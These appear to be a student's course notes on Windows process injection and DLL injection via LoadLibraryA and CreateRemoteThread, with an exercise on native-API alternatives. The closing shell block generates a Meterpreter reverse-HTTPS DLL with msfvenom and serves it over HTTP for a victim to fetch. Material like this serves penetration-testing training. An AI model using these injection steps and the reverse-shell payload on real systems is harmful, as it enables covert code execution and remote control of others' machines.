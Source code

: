 ### TODO:
#### Extra Mile

Process injection with _VirtualAllocEx_, _WriteProcessMemory_, and _CreateRemoteThread_ is considered a standard technique, but there are a few others to consider.

The low-level native APIs _NtCreateSection_, _NtMapViewOfSection_, _NtUnMapViewOfSection_, and _NtClose_ in ntdll.dll can be used as alternatives to _VirtualAllocEx_ and _WriteProcessMemory_.

Create C# code that performs process injection using the four new APIs instead of _VirtualAllocEx_ and _WriteProcessMemory_. Convert the code to Jscript with DotNetToJscript. Note that _CreateRemoteThread_ must still be used to execute the shellcode.

## DLL Injection

Our approach will be to try to trick the remote process into executing _LoadLibrary_ with the correct argument. Recall that when calling _CreateRemoteThread_, the fourth argument is the start address of the function run in the new thread and the fifth argument is the memory address of a buffer containing arguments for that function.

The idea is to resolve the address of _LoadLibraryA_ inside the remote process and invoke it while supplying the name of the DLL we want to load. If the address of _LoadLibraryA_ is given as the fourth argument to _CreateRemoteThread_, it will be invoked when we call _CreateRemoteThread_.

In order to supply the name of the DLL to _LoadLibraryA_, we must allocate a buffer inside the remote process and copy the name and path of the DLL into it. The address of this buffer can then be given as the fifth argument to _CreateRemoteThread_, after which it will be used with _LoadLibrary_.

However, there are several restrictions we must consider. First, the DLL must be written in C or C++ and must be unmanaged. The managed C#-based DLL we have been working with so far will not work because we can not load a managed DLL into an unmanaged process.

Secondly, DLLs normally contain APIs that are called after the DLL is loaded. In order to call these APIs, an application would first have to "resolve" their names to memory addresses through the use of _GetProcAddress_. Since _GetProcAddress_ cannot resolve an API in a remote process, we must craft our malicious DLL in a non-standard way.

- create payload and start web server
```bash
❯ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$(hostname -I | cut -d' ' -f1) LPORT=443 -f dll -o met.dll
[sudo] password for roger: 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 781 bytes
Final size of dll file: 9216 bytes
Saved as: met.dll
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.141 - - [27/May/2024 13:12:35] "GET /met.dll HTTP/1.1" 200 -

```
